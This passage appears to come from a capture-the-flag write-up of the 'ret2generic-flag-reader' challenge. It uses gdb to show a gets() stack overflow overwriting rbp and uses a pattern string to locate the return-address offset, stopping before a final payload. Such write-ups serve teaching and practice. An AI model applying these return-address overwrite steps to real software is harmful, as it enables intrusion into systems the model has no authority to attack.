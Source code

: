 ```
   0x000000000040142f <+138>:   ret
End of assembler dump.
```

We see again multiple calls to `<puts@plt>` and right after a call to
`<gets@plt>`. There is no `cmp` and `jne` to be found in this challenge though.

The goal is to overwrite the _return address_. This is a memory address also
stored in memory, and the program will move execution to that memory address
once it sees a `ret` instruction. In this 'vanilla' state, the return address
always goes to the assembly equivalent of an `exit()` function. Let's see if we
can overwrite it by giving too much input:

```
(gdb) break *0x000000000040142f
Breakpoint 1 at 0x40142f
(gdb) run < <(python3 -c "print('a' * 56)")
-- Breakpoint 1 hit --
(gdb) info registers
rax            0x0                 0x0
rbx            0x401430            0x401430
rsi            0x7ffff7f7d883      0x7ffff7f7d883
rdi            0x7ffff7f804e0      0x7ffff7f804e0
rbp            0x6161616161616161  0x6161616161616161
rsp            0x7fffffffd898      0x7fffffffd898
rip            0x40142f            0x40142f <main+138>
```

As you can see, the $rbp register is completely overwritten with `0x61`'s.
Let's check the $rsp register to see where the `main()` function tries to go
after `ret`:

```
(gdb) run
Starting program: ret2generic-flag-reader
alright, the rob inc company meeting is tomorrow and i have to come up with a new pwnable...
how about this, we'll make a generic pwnable with an overflow and they've got to ret to some flag reading function!
slap on some flavortext and there's no way rob will fire me now!
this is genius!! what do you think?
a0a1a2a3a4a5a6a7a8a9b0b1b2b3b4b5b6b7b8b9c0c1c2c3
-- Breakpoint 1 hit --
(gdb) x/1gx $rsp
0x7fffffffd898: 0x3363326331633063
```

Let's use CyberChef to see what `0x3363326331633063` is in ascii!
